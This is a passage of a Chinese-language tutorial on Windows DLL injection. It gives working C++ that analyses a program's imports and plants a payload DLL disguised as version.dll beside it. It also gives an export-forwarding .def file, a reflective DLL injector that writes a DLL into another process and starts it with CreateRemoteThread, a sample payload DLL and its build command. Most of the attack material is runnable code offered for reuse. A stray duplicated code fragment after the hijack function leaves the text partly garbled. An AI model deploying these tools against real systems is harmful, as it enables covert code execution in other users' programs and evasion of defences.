        PIMAGE_NT_HEADERS pNt = nullptr;
        DWORD importRva = 0;
        PIMAGE_SECTION_HEADER pSections = nullptr;
        WORD nSections = 0;
        DWORD importOffset = 0;
        PIMAGE_IMPORT_DESCRIPTOR pImportDesc = nullptr;

        HANDLE hFile = CreateFileW(exePath.c_str(), GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
        if (hFile == INVALID_HANDLE_VALUE) return imports;

        HANDLE hMap = CreateFileMappingW(hFile, NULL, PAGE_READONLY, 0, 0, NULL);
        if (!hMap) { CloseHandle(hFile); return imports; }

        LPVOID pBase = MapViewOfFile(hMap, FILE_MAP_READ, 0, 0, 0);
        if (!pBase) { CloseHandle(hMap); CloseHandle(hFile); return imports; }

        // 开始解析
        pDos = (PIMAGE_DOS_HEADER)pBase;
        if (pDos->e_magic != IMAGE_DOS_SIGNATURE) goto Cleanup;

        pNt = (PIMAGE_NT_HEADERS)((BYTE*)pBase + pDos->e_lfanew);
        if (pNt->Signature != IMAGE_NT_SIGNATURE) goto Cleanup;

        // 获取 Section 信息
        pSections = IMAGE_FIRST_SECTION(pNt);
        nSections = pNt->FileHeader.NumberOfSections;

        // 获取导入表 RVA
        if (pNt->OptionalHeader.Magic == IMAGE_NT_OPTIONAL_HDR64_MAGIC) {
            PIMAGE_NT_HEADERS64 pNt64 = (PIMAGE_NT_HEADERS64)pNt;
            importRva = pNt64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress;
        } else {
            PIMAGE_NT_HEADERS32 pNt32 = (PIMAGE_NT_HEADERS32)pNt;
            importRva = pNt32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress;
        }

        if (importRva == 0) goto Cleanup;

        // RVA 转 Offset
        importOffset = RvaToOffset(importRva, pSections, nSections);
        if (importOffset == 0) goto Cleanup;

        // 遍历导入表
        pImportDesc = (PIMAGE_IMPORT_DESCRIPTOR)((BYTE*)pBase + importOffset);
        while (pImportDesc->Name != 0) {
            DWORD nameOffset = RvaToOffset(pImportDesc->Name, pSections, nSections);
            if (nameOffset != 0) {
                char* pName = (char*)((BYTE*)pBase + nameOffset);
                int len = MultiByteToWideChar(CP_ACP, 0, pName, -1, NULL, 0);
                if (len > 0) {
                    std::vector<wchar_t> wName(len);
                    MultiByteToWideChar(CP_ACP, 0, pName, -1, wName.data(), len);
                    std::wstring dllName = wName.data();
                    std::transform(dllName.begin(), dllName.end(), dllName.begin(), ::towlower);
                    imports.insert(dllName);
                }
            }
            pImportDesc++;
        }

    Cleanup:
        if (pBase) UnmapViewOfFile(pBase);
        if (hMap) CloseHandle(hMap);
        if (hFile) CloseHandle(hFile);
        return imports;
    }

    bool Deploy_Hijack(const std::wstring& targetExePath, const std::wstring& myDllPath) {

        std::wstring targetDir = GetDirectoryFromPath(targetExePath);
        if (targetDir.empty()) {
            MessageBoxW(NULL, L"无法解析目标目录", L"错误", MB_ICONERROR);
            return false;
        }

        std::wcout << L"[*] 正在分析目标导入表: " << targetExePath << std::endl;

        std::set<std::wstring> importedDlls = GetImportedDlls(targetExePath);
        std::wstring bestCandidate = L"";

        for (const auto& candidate : HIJACK_CANDIDATES) {
            if (importedDlls.count(candidate)) {
                std::wstring checkPath = targetDir + L"\\" + candidate;
                DWORD attr = GetFileAttributesW(checkPath.c_str());
                if (attr == INVALID_FILE_ATTRIBUTES) {
                    bestCandidate = candidate;
                    break;
                }
            }
        }

        if (bestCandidate.empty()) {
            std::cout << "[!] 未找到最佳劫持目标，尝试默认目标 version.dll" << std::endl;
            bestCandidate = L"version.dll";
        }

        std::wcout << L"[+] 选定劫持目标: " << bestCandidate << std::endl;

        std::wstring hijackPath = targetDir + L"\\" + bestCandidate;

        if (GetFileAttributesW(hijackPath.c_str()) != INVALID_FILE_ATTRIBUTES) {
            MessageBoxW(NULL, L"目标目录下已存在同名文件，停止劫持以策安全。", L"错误", MB_ICONERROR);
            return false;
        }

        if (CopyFileW(myDllPath.c_str(), hijackPath.c_str(), FALSE)) {
            std::wstring msg = L"劫持成功！\n\nPayload 已伪装成: " + bestCandidate + L"\n请重启目标程序生效。";
            MessageBoxW(NULL, msg.c_str(), L"部署完成", MB_ICONINFORMATION);
            return true;
        } else {
            MessageBoxW(NULL, L"文件复制失败 (权限不足？)", L"错误", MB_ICONERROR);
            return false;
        }
    }
} L"错误", MB_ICONERROR);
            return false;
        }
    }
}
```


dll中转发函数例子：

对于g++编译和伪装version.dll：创建.def文件后填入

```cpp
LIBRARY "version.dll"
EXPORTS
    GetFileVersionInfoA=C:/Windows/System32/version.dll.GetFileVersionInfoA
    GetFileVersionInfoByHandle=C:/Windows/System32/version.dll.GetFileVersionInfoByHandle
    GetFileVersionInfoExA=C:/Windows/System32/version.dll.GetFileVersionInfoExA
    GetFileVersionInfoExW=C:/Windows/System32/version.dll.GetFileVersionInfoExW
    GetFileVersionInfoSizeA=C:/Windows/System32/version.dll.GetFileVersionInfoSizeA
    GetFileVersionInfoSizeExA=C:/Windows/System32/version.dll.GetFileVersionInfoSizeExA
    GetFileVersionInfoSizeExW=C:/Windows/System32/version.dll.GetFileVersionInfoSizeExW
    GetFileVersionInfoSizeW=C:/Windows/System32/version.dll.GetFileVersionInfoSizeW
    GetFileVersionInfoW=C:/Windows/System32/version.dll.GetFileVersionInfoW
    VerFindFileA=C:/Windows/System32/version.dll.VerFindFileA
    VerFindFileW=C:/Windows/System32/version.dll.VerFindFileW
    VerInstallFileA=C:/Windows/System32/version.dll.VerInstallFileA
    VerInstallFileW=C:/Windows/System32/version.dll.VerInstallFileW
    VerLanguageNameA=C:/Windows/System32/version.dll.VerLanguageNameA
    VerLanguageNameW=C:/Windows/System32/version.dll.VerLanguageNameW
    VerQueryValueA=C:/Windows/System32/version.dll.VerQueryValueA
    VerQueryValueW=C:/Windows/System32/version.dll.VerQueryValueW
```


## 反射型注入：

### 基本原理

参照stephen fewer的[ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)项目。

普通dll注入就是靠LoadLibrary函数，把dll按照正常操作系统能接受的方式加载进去。dll进去之后直接就可以调用dll中的函数


但是反射型注入是把整个dll文件当作二进制数据写到exe运行内存中，这个时候它肯定是不能正常运行的，但是反射型dll中有一个特殊的函数叫做

` `ReflectiveLoader 函数，可以自己把这些二进制数据组装起来，修复导入导出表什么的，然后这个dll文件就和正常dll文件一样，可以正常使用了。


**这种方法隐蔽性很高，但是对我们的dll文件编写有很高的要求**


### 反射型注入流程：

1. **注入器 (Injector)**：将 DLL 的原始文件数据写入目标进程，并创建一个远程线程，线程的入口点指向 DLL 里的导出函数 **`ReflectiveLoader`**。

2. **`ReflectiveLoader` 运行**：这个函数开始工作（申请内存、复制节、修复重定位、加载导入表）。此时 DLL 只是内存里的一坨数据，还没“活”过来。

3. **`ReflectiveLoader` 完工**：当它把一切都准备好，DLL 已经变成了一个合法的内存镜像。

4. **调用入口**：`ReflectiveLoader` 的最后一行代码，通常就是调用 `DllMain(..., DLL_PROCESS_ATTACH, ...)`。

5. **`DllMain` 运行**：这时候你的业务逻辑（弹窗、挂钩等）才开始执行。
   
   

### 反射型注入代码逻辑：

```cpp
bool Inject_Reflective(DWORD pid, const std::vector<unsigned char>& rawDllData) {
        if (rawDllData.empty()) return false;

        std::vector<unsigned char> buffer = rawDllData; 
        DWORD offset = GetReflectiveLoaderOffset(buffer);

        if (offset == 0) {
            std::cerr << "[-] 未找到 ReflectiveLoader 导出函数。" << std::endl;
            MessageBoxW(NULL, L"注入失败：\nDLL 中未找到包含 'ReflectiveLoader' 的导出函数。\n请查看控制台日志确认导出表内容。", L"错误", MB_ICONERROR);
            return false;
        }

        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
        if (!hProcess) {
            std::cerr << "[-] OpenProcess 失败。" << std::endl;
            return false;
        }

        // 分配 RWX 内存
        void* pRemoteMem = VirtualAllocEx(hProcess, NULL, buffer.size(), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        if (!pRemoteMem) {
            CloseHandle(hProcess);
            return false;
        }

        // 写入 DLL
        if (!WriteProcessMemory(hProcess, pRemoteMem, buffer.data(), buffer.size(), NULL)) {
            VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }

        // 计算入口并执行
        LPTHREAD_START_ROUTINE pEntry = (LPTHREAD_START_ROUTINE)((ULONG_PTR)pRemoteMem + offset);
        
        HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pEntry, NULL, 0, NULL);
        if (!hThread) {
            std::cerr << "[-] CreateRemoteThread 失败。" << std::endl;
            VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }

        // 等待线程初始化，不立即释放内存
        // 实际上在反射注入中，我们通常不释放这块原始内存，因为它包含了正在运行的代码
        WaitForSingleObject(hThread, 1000);
        
        CloseHandle(hThread);
        CloseHandle(hProcess);
        
        std::cout << "[+] 反射注入线程已创建。" << std::endl;
        return true;
    }
```

其中rva转foa的函数非常重要，在pe文件结构那一节也讲过这个函数

找导出表定位reflectloader部分就不说了，看过pe文件结构部分也都会，代码可以看总结部分仓库


### dll设计：

直接拿开源项目的函数实现过来编译就可以了

[ReflectiveDLLInjection/dll/src/ReflectiveLoader.c at master · stephenfewer/ReflectiveDLLInjection · GitHub](https://github.com/stephenfewer/ReflectiveDLLInjection/blob/master/dll/src/ReflectiveLoader.c)

[ReflectiveDLLInjection/dll/src/ReflectiveLoader.h at master · stephenfewer/ReflectiveDLLInjection · GitHub](https://github.com/stephenfewer/ReflectiveDLLInjection/blob/master/dll/src/ReflectiveLoader.h)

```cpp
#include <winsock2.h>
#include <windows.h>
#include "ReflectiveLoader.h" // [关键] 包含开源的加载器头文件

// 注意：你不在这里实现 ReflectiveLoader，它的实现在 ReflectiveLoader.c 里。
// 只要把那个 .c 文件加入项目一起编译，链接器会自动把它链接进来。

extern "C" void* _ReturnAddress(void) {
    return __builtin_return_address(0);
}

// 你的业务逻辑线程
DWORD WINAPI MainThread(LPVOID lpParam) {
    MessageBoxA(NULL, "Reflective Injection Success!", "Hacker", MB_OK);
    return 0;
}

// 标准的 DllMain
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            // [重点] 这里是被 ReflectiveLoader 主动调用的
            // 当代码走到这里时，环境已经由 Loader 准备好了
            DisableThreadLibraryCalls(hinstDLL);

            // 启动你的核心业务
            CreateThread(NULL, 0, MainThread, NULL, 0, NULL);
            break;

        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

编译：

```bash
g++ -shared -o reflective_payload.dll dll_reflectivedemo.cpp ReflectiveLoader.c -static -DWIN_X64 -DREFLECTIVEDLLINJECTION_VIA_LOADREMOTELIBRARYR -DREFLECTIVEDLLINJECTION_CUSTOM_DLLMAIN -Wl,--allow-multiple-definition
```


# 总结：

dll注入部分代码都放在我的集成项目[GitHub - som1ng/c-injector: c++编写的dll注入器和代码注入器](https://github.com/som1ng/c-injector)里了


